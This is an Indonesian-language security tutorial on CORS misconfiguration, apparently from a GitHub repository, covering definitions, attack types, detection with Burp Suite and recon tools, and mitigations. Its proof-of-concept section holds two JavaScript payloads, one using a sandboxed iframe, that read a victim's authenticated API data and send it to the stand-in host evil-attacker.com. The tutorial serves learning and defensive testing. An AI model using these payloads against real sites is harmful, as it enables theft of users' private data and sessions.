

# 🌐 CORS (Cross-Origin Resource Sharing) Misconfiguration

## 1. Definisi
**Cross-Origin Resource Sharing (CORS)** adalah mekanisme keamanan browser yang menggunakan header HTTP tambahan untuk memberikan izin kepada aplikasi web yang berjalan di satu asal (*origin*) untuk mengakses sumber daya (*resources*) dari asal yang berbeda.

Secara default, browser menerapkan kebijakan **Same-Origin Policy (SOP)** yang melarang situs web mengambil data dari domain lain secara sembarangan. Namun, jika konfigurasi CORS di sisi server aplikasi salah (*misconfigured*), penyerang dapat membaca data sensitif milik korban langsung dari browser mereka melalui skrip berbahaya.

---

## 2. Ilustrasi Alur Serangan CORS


<p align="center">Sumber: PortSwigger Web Security Academy</p>

---

## 3. Jenis-Jenis Miskonfigurasi CORS & Exploit PoC

### A. Origin Reflection (Menerima Asal Apapun)
Server dikonfigurasi untuk membaca header `Origin` dari request yang masuk secara dinamis, lalu menuliskannya kembali pada header respons `Access-Control-Allow-Origin`, serta mengaktifkan `Access-Control-Allow-Credentials: true`.
* **Bahaya**: Domain luar apa pun (termasuk domain penyerang) dapat mengakses data sensitif target lengkap dengan session cookie.

#### 📄 Exploit PoC (Javascript):
Jika situs `https://vulnerable.com/api/userdata` rentan, penyerang menghosting skrip ini di `http://evil-attacker.com`:
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
      // Mengirimkan data sensitif korban ke server penyerang
      fetch('http://evil-attacker.com/log?data=' + btoa(xhr.responseText));
    }
  }
  // Dengan credentials (cookie) diikutsertakan
  xhr.open('GET', 'https://vulnerable.com/api/userdata', true);
  xhr.withCredentials = true;
  xhr.send();
</script>
```

### B. Menerima Origin `null`
Beberapa aplikasi mengizinkan origin `null` pada header `Access-Control-Allow-Origin` untuk mendukung aplikasi lokal atau iframe.
* **Bahaya**: Penyerang dapat memicu origin `null` menggunakan iframe berpasir (*sandboxed iframe*) dari situs luar:
  ```html
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch('http://evil-attacker.com/log?data=' + btoa(xhr.responseText));
        }
      }
      xhr.open('GET', 'https://vulnerable.com/api/userdata', true);
      xhr.withCredentials = true;
      xhr.send();
    </script>">
  </iframe>
  ```

---

## 4. Teknik Mendeteksi Kerentanan CORS

### 🕵️ Metode 1: Pengujian Manual Satu Target (Burp Suite)
1. Tangkap request ke API sensitif menggunakan **Burp Suite**.
2. Kirim request ke **Repeater**.
3. Tambahkan atau modifikasi header `Origin` pada request:
   ```http
   Origin: http://evil-attacker.com
   ```
4. Amati respon server. Jika server mengembalikan header berikut, maka server rentan:
   ```http
   Access-Control-Allow-Origin: http://evil-attacker.com
   Access-Control-Allow-Credentials: true
   ```

### 🤖 Metode 2: Pemindaian Skala Besar (Subdomain Enumeration)
Mencari kerentanan CORS di seluruh subdomain aktif:
```bash
# 1. Cari subdomain aktif
subfinder -d target.com -o domains.txt

# 2. Cek domain yang hidup
cat domains.txt | httpx -o alive.txt

# 3. Kirim ke proxy Burp Suite untuk dianalisis otomatis
cat alive.txt | parallel -j 10 curl --proxy "http://127.0.0.1:8080" -sk 2>/dev/null
```

### 🛠️ Metode 3: Otomatisasi dengan Meg & GF
Gunakan tool buatan TomNomNom untuk mencari konfigurasi CORS yang bocor secara massal:
```bash
# 1. Lakukan request ke semua host
meg -v

# 2. Cari pola CORS yang rentan
gf cors
```
*(GF cors akan menampilkan seluruh URL yang merespon dengan header Access-Control-Allow-Origin yang cocok dengan origin palsu).*

---

## 5. Mitigasi (Pencegahan)

### ✔️ 1. Hindari Menampilkan Asal Secara Dinamis (Origin Reflection)
Jangan membaca header `Origin` request lalu langsung memantulkannya kembali ke header respons CORS secara mentah-mentah jika Anda menggunakan kredensial.

### ✔️ 2. Gunakan Daftar Putih Origin yang Ketat (Strict Whitelisting)
Hanya izinkan daftar origin terpercaya (misalnya subdomain internal resmi perusahaan). Lakukan pencocokan string secara aman (hindari kesalahan regex seperti mencocokkan `target.com` dengan `target.com.evil.com` atau `evil-target.com`).

### ✔️ 3. Jangan Gunakan Kredensial untuk Wildcard
Jika Anda menggunakan wildcard (`*`) pada `Access-Control-Allow-Origin`, pastikan untuk **menonaktifkan** `Access-Control-Allow-Credentials` (tidak boleh bernilai `true`). Browser secara otomatis memblokir respons jika `Origin: *` dikombinasikan dengan `Credentials: true`.

---

## 6. Referensi Terpercaya
* [PortSwigger Web Security Academy: CORS Guide](https://portswigger.net/web-security/cors)
* [OWASP Cheat Series: HTML5 Security (CORS section)](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing-cors)
* [GF Tool by TomNomNom](https://github.com/tomnomnom/gf)
